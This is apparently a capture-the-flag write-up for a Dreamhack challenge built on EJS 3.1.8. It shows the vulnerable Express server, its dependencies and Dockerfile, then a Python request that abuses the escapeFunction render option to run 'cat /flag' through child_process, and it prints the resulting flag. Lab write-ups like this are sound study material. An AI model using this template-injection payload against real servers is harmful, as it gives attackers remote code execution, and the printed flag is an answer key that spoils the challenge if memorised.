

## ejs@3.1.8



The backend in this challenge is very minimalistic. It renders a simple template, and the only thing we can control is the EJS rendering options in our query parameters.  

```js
const express = require('express');
var path = require('path');
const app = express();
const port = 3000;
 
app.set('views', path.join(__dirname, '/templates'));
app.set('view engine', 'ejs');
app.use(express.urlencoded({ extended: true }));

app.get('/', (req, res) => {
   res.render('index', req.query )
})
 
app.listen(port, () => {})
```

The EJS version used is below `3.1.10`, so its vulnerable to template injection via `escapeFunction`.  

```json
{
  "dependencies": {
    "ejs": "^3.1.8",
    "express": "^4.18.2"
  }
}
```

The Dockerfile shows that the flag file is stored in root. Our goal would thus be to gain RCE and read the flag.  

```dockerfile
FROM node:16@sha256:496085d0cd8edf49c97ec86ac11bed85b6f965d9b29885887bb0edba26549b07

WORKDIR /usr/src/app
COPY ./deploy/src/ .
COPY ./deploy/flag /flag
...
```

We can use [this exploit](https://security.snyk.io/vuln/SNYK-JS-EJS-2803307) to inject our payload, then send it over using Python.  

```python
import requests

url = "http://host8.dreamhack.games:17942"

payload = "return process.mainModule.require('child_process').execSync('cat /flag');"

res = requests.get(f'{url}/?settings[view options][client]=true&settings[view options][escapeFunction]=1;{payload}')

print(res.text)
```

Flag: `DH{725cb637fdf2abfe6dbe186fd2ab15593d974594d890980c8ce19fefc841b769}`